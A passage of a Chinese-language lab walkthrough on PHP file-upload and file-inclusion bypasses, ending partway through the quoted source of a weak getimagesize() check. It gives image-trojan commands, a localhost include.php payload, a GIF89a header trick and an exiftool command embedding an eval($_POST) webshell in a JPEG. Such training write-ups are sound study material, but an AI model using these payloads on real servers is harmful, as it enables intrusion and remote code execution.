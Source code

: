 漏洞原理：  
>1. 检测上传文件只检测前两个字节，导致木马文件可能藏在后面  
>2. php中的include()会把文件当做php文件来执行

容易导致文件包含的函数：

	
	include()  
	require()  
	inlcude_once()  
	require_once()


利用方式：通过上传包含木马内容的图片文件，从而绕过上传检测，然后利用include.php把图片文件当做php文件来执行。

制作图片马cmd下运行copy 1.jpg /b 2.php /a 3.jpg，上传绕过检测，然后构造payroad：http://127.0.0.1:8080/include.php?file=upload/3.jpg

**补充**  

还有两个方法：

1.上传1.php然后bp抓包在内容前面加GIF89a（文件头），然后利用文件包含漏洞构造payload

<img src="https://raw.githubusercontent.com/picgouser/pic/master/20200317182448.png" width="60%">

2.制作图片马时可以把木马放在图片的comment中，用exiftool工具

	exiftool "-comment=<?php echo 'hello world';eval($_POST['a']); ?>" 4.jpg
结果如下

<img src="https://raw.githubusercontent.com/picgouser/pic/master/20200317023138.png" width="60%">

<img src="https://raw.githubusercontent.com/picgouser/pic/master/20200317023346.png" width="60%">

##Pass-15

漏洞点为服务端--检查内容--突破getimagesize()

源码

	function isImage($filename){
	    $types = '.jpeg|.png|.gif';
	    if(file_exists($filename)){
	        $info = getimagesize($filename);
	        $ext = image_type_to_extension($info[2]);
	        if(stripos($types,$ext)>=0){
	            return $ext;
	        }else{
	            return false;
	        }
	    }else{
	        return false;
	    }
	}
	
	$is_upload = false;
	$msg = null;
	if(isset($_POST['submit'])){
	    $temp_file = $_FILES['upload_file']['tmp_name'];
	    $res = isImage($temp_file);
	    if(!$res){
	        $msg = "文件未知，上传失败！";
	    }else{
	        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").$res;
	        if(move_uploaded_file($temp_file,$img_path)){
	            $is_upload = true;
	        } else {
	            $msg = "上传出错！";
	        }